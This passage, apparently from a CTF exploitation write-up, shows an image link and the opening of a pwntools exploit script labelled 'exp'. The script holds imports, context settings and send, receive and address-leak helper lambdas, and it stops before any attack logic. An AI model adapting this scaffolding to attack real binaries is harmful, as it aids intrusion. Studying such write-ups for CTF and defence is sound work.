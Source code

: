 [![](assets/1701612371-0e8cb783f92bc600ac2900a4a16772a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152138-eaeb7fcc-17df-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
```